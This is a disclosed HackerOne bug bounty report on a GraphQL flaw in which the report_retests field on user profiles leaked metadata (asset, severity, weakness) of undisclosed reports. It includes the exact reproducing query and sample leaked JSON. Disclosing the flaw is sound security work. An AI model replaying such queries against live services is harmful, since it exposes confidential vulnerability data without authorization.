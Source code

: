 # Unauthorized access to metadata of undisclosed reports that were retested

## Report Details
- **Report ID**: 871749
- **URL**: https://hackerone.com/reports/871749
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-05-12T13:05:13.465Z
- **Disclosed**: 2020-06-05T01:35:52.566Z

## Reporter
- **Username**: msdian7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
`report_retests` object in `User` node discloses some information about undisclosed report

**Description:**
An attacker can get some infomation such as "asset_name" , "asset_type" , "severity_rating" , "weakness_name" of undisclosed report

### Steps To Reproduce

1. Invoke the below graphql call 

POST /graphql HTTP/1.1
Host: hackerone.com

```
{"operationName":"UserMiniProfile","variables":{"username":"msdian7"},"query":"query UserMiniProfile($username: String!) {\n  user(username: $username) {\n    id\n    ...UserMiniProfileLayout\n    __typename\n  }\n}\n\nfragment UserMiniProfileLayout on User {\n  id\n  large_profile_picture: profile_picture(size: large)\n  name\n  username\n  bio\n  reputation\n  signal\n  report_retests{total_count,approved_count,nodes{report{_id},created_at,asset_name,asset_type,award_amount,claimed_at,report_state,weakness_name,severity_rating,report_substate,report_retest_users{total_count,nodes{_id,user{username},state,invitation{id}}}}}\n  cleared\n  __typename\n}\n"}
```

2.  You will get below response 

```
████
```
3.  From that above response search for "report":null  , all that "report":null json objects are , undisclosed report , i take the last json object for my POC 

{"report":null,"created_at":"2020-05-11T19:21:25.507Z","asset_name":"https://www.hackerone.com","asset_type":"URL","award_amount":"50.00","claimed_at":null,"report_state":"closed","weakness_name":null,"severity_rating":"low","report_substate":"resolved","report_retest_users":{"total_count":1,"nodes":[{"_id":"███","user":{"username":"██████████"},"state":"approved","invitation":null}

from this json, we  can see user █████ retested one undisclosed report . 
 and the informations about that undisclosed report are ,
a. That report filed to "https://www.hackerone.com"
b. severity of that report is "low"


We can see some other  undisclosed reports too .

the another example is ,

{"report":null,"created_at":"2020-03-17T22:20:07.215Z","asset_name":"https://hackerone.com","asset_type":"URL","award_amount":"0.00","claimed_at":null,"report_state":"closed","weakness_name":"Information Disclosure","severity_rating":"medium","report_substate":"resolved","report_retest_users":{"total_count":1,"nodes":[{"_id":"███████","user":{"username":"████"},"state":"unassigned","invitation":null}]}

This is another undisclosed report, filed to "https://hackerone.com" asset with the "Information Disclosure" weakness and severity of report is "medium"

@security program, has more undisclosed report, so we cant detect exact undisclosed report, Consider if a new program start to use hackerone.com and uses retest feature , we can get that program's  asset_name , asset_type, weakness_name and severity_rating without disclosure of that report

## Impact

an attacker can get Information of undisclosed report

## Attachments
No attachments
